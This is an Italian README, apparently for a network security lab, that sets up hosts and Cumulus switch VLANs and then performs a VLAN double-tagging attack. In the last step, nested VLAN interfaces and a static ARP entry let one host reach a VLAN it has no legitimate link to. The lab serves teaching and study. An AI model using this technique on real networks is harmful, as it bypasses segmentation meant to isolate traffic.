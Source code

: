 # VLAN attack

### Step 1
Fare il setup dell'indirizzo IP di Tiny 1 (scripts/tiny1/Setup.sh):

    sudo ip addr add 10.0.10.101/24 dev eth0

### Step 2
Fare il setup dell'indirizzo IP di Tiny 2 (scripts/tiny2/Setup.sh):

    sudo ip addr add 10.0.20.101/24 dev eth0

### Step 3
Fare il setup dell'indirizzo IP di Tiny 3 (scripts/tiny3/Setup.sh):

    sudo ip addr add 10.0.10.102/24 dev eth0

### Step 4
Fare il setup dell'indirizzo IP di Tiny 4 (scripts/tiny4/Setup.sh):

    sudo ip addr add 10.0.20.102/24 dev eth0

### Step 5
Fare il setup del bridge e delle interfacce VLAN in Cumulus 1 (scripts/cumulus1/BridgeAndInterfaces.sh):

    net del all
    net commit
    net add bridge bridge ports swp1,swp2,swp3,swp4
    net add bridge bridge pvid 1			#definisce l'id del pacchetto 'untagged'
    net add bridge bridge vids 10,20		#definisce gli identifivatori VLAN configurati sullo switch
    net add interface swp1 bridge access 10		#configura la porta swp1 per essere un accesso per VLAN10
    net add interface swp2 bridge access 20		#configura la porta swp2 per essere un accesso per VLAN20
    net commit

### Step 6
Fare il setup del bridge e delle interfacce VLAN in Cumulus 2 (scripts/cumulus2/BridgeAndInterfaces.sh):

    net del all
    net commit
    net add bridge bridge ports swp1,swp2,swp3,swp4
    net add bridge bridge pvid 1			#definisce l'id del pacchetto 'untagged'
    net add bridge bridge vids 10,20		#definisce gli identifivatori VLAN configurati sullo switch
    net add interface swp1 bridge access 10		#configura la porta swp1 per essere un accesso per VLAN10
    net add interface swp2 bridge access 20		#configura la porta swp2 per essere un accesso per VLAN20
    net commit

### Step 7
Eseguire il double incapsulation attack in Tiny 5, che invierà pacchetti a Tiny 4 pur non avendo collegamenti leciti con VLAN 20 (scripts/tiny5/DoubleIncapsulation.sh):

    sudo ip link add link eth0 name eth0.1 type vlan id 1
    sudo ip link add link eth0.1 name eth0.1.20 type vlan id 20
    sudo ip link set eth0.1 up
    sudo ip link set eth0.1.20 up
    sudo ip addr add 10.0.20.250/24 dev eth0.1.20
    sudo arp -s 10.0.20.102 08:00:27:a2:8d:5b		#inserisce nella tabella ARP gli indirizzi MAC e IP di Tiny 4
